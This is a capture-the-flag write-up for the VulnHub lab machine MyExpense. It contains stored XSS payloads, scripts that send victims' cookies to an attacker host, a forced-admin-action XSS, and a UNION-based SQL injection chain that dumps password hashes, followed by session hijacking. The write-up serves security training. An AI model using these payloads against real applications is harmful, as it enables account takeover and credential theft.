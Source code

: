 # MyExpense

- **Target Machine - MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)

---

## Scenario

You are **Samuel Lamotte**, and you’ve just been fired from your company **Furtura Business Informatique**. Unfortunately, due to the abrupt departure, you didn’t have the chance to validate the expense report from your last business trip, totaling €750 — the cost of a round-trip flight with your last client.
Fearing your former employer might refuse to reimburse you, you decide to hack into the internal application called **"MyExpense"**, used by the company to manage employee expense reports.
 
You are currently parked outside the company building, connected to the internal Wi-Fi network (the password hasn’t been changed since your departure). The application is protected by a login form with username and password authentication. You hope your credentials still work.

Known credentials:  
`slamotte:fzghn4lw`

Once the challenge is completed successfully, the flag will appear within the application while logged in as **Samuel**.

---

## 1. Discovery and Initial Enumeration

### Network Discovery and IP Identification

Discovered the machine’s IP: `192.168.56.101`

```bash
arp-scan -I enp0s8 --localnet --ignoredups
````

### Full Port Scan

Once the IP was known, a full port scan was performed:

```bash
nmap -sS -Pn -n -p- --min-rate --open 5000 192.168.56.101 -oG ./nmap/allports
```

![Nmap All Ports](images/Pasted%20image%2020250719171605.png)

Since the challenge context mentions a web application, focus was directed to port 80.

### Service Enumeration

```bash
nmap -sCV -p80 -Pn -n 192.168.56.101 -oN ./nmap/recon
```

![Nmap Recon](images/Pasted%20image%2020250719172052.png)

The scan revealed valuable insights, such as the presence of an `/admin/` directory. Additionally, it showed the absence of the `HttpOnly` flag, which may leave the application vulnerable to cookie theft.

---

### Accessing Admin Interface

Accessing the directory `http://192.168.56.101/admin/admin.php` revealed a list of active and inactive users. Our user `slamotte` appears as **inactive**.

![Admin Interface](images/Pasted%20image%2020250719172553.png)

---

## 2. Exploitation - Account Creation and Stored XSS

It was found that the **signup button** could be bypassed to create new users even when it appeared disabled.

![Signup Form](images/Pasted%20image%2020250719173049.png)

Upon discovering this, an attempt was made to inject a basic XSS payload into the `firstname` and `lastname` fields. It was successful:

```javascript
<script>alert("XSS")</script>
```

Returning to `http://192.168.56.101/admin/admin.php`, the alert was triggered:

![XSS Triggered](images/Pasted%20image%2020250719173537.png)

---

### Cookie Theft Attempt

Attempted to steal cookies by injecting a malicious script in the form:

```javascript
<script src="http://192.168.56.102/robcookies.js">

	var request = new XMLHttpRequest();
	request.open('GET','http://10.0.2.15/?cookie=' + document.cookie );
	request.send();

</script>
```

Successfully captured the admin (`rmasson`) cookies. However, session hijacking failed due to a restriction: only **one session per user** is allowed simultaneously.

---

### Forced Admin Action via XSS

The admin user (`rmasson`) actively monitors new user registrations. Knowing this, an XSS payload was crafted to **force the admin to reactivate** the `slamotte` account via a crafted request:

```javascript
<script src="http://192.168.56.102/script.js"></script>
```

The hosted script contained:

```javascript
var domain = " http://192.168.56.101/admin/admin.php?id=11&status=active";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();
```

Started the listener:

```bash
python -m http.server 80
```

![Listener Started](images/Pasted%20image%2020250719180209.png)

---

## 3. Access Recovered and Expense Submitted

Successfully logged into the **slamotte** account. The €750 expense was still pending and was submitted:

![Expense Submitted](images/Pasted%20image%2020250719180743.png)

---

## 4. XSS in Internal Chat & Session Hijacking

The platform includes a chat feature with messages from both the **Manager (Manon Riviere)** and the **Finance Approver**.

![Chat Feature](images/Pasted%20image%2020250719181214.png)

Suspecting the chat might be vulnerable to XSS, the following script was injected:

```javascript
<script src="http://192.268.56.102:4749/robcookies.js"></script>
```

Script content:

```javascript
var request = new XMLHttpRequest();
request.open('GET','http://192.268.56.102:4444/?cookie=' + document.cookie);
request.send();
```

Cookies from chat users were successfully exfiltrated:

![Cookies Exfiltrated](images/Pasted%20image%2020250719183341.png)

Switched session to the **manager (Manon Riviere)** using the cookie:
`6tqplpcj4n4dl43kig1dipdc32`

![Manager Session](images/Pasted%20image%2020250719183914.png)

With manager access, approved the previously submitted expense:

![Expense Approved](images/Pasted%20image%2020250719184016.png)

---

## 5. SQL Injection - Extracting Credentials

While browsing the **Rennes** section, it was found that the parameter `?id=` was vulnerable to SQL Injection.

Confirmed with:

```http
http://192.168.56.101/site.php?id=2 order by 2 -- -
```

![SQL Order By](images/Pasted%20image%2020250719184415.png)

Extracted the database name using:

```http
http://192.168.56.101/site.php?id=2 union select 1,database()-- -
```

![Database Extracted](images/Pasted%20image%2020250719184739.png)

Listed all tables:

```http
http://192.168.56.101/site.php?id=2 union select 1,table_name from information_schema.tables where table_schema='myexpense'-- -
```

![Tables Listed](images/Pasted%20image%2020250719185243.png)

Targeted the `user` table and listed its columns:

```http
http://192.168.56.101/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```

![Columns Listed](images/Pasted%20image%2020250719185605.png)

Finally, dumped usernames and password hashes:

```http
http://192.168.56.101/site.php?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```

![Hashes Dumped](images/Pasted%20image%2020250719185939.png)

Used **hashes.com** to crack the hashes online.

The relevant user was: `pbaudouin`
Recovered password in plaintext: `HackMe`

![Password Cracked](images/Pasted%20image%2020250719190204.png)

---

## 6. Final Step – Expense Fully Approved

Logged in as `pbaudouin`, found the pending expense and approved it:

![Final Approval](images/Pasted%20image%2020250719190514.png)

Finally, logged back in as `slamotte` to confirm that the €750 reimbursement was approved and completed:

![Challenge Completed](images/Pasted%20image%2020250719190657.png)

✅ Challenge successfully completed.

```

---
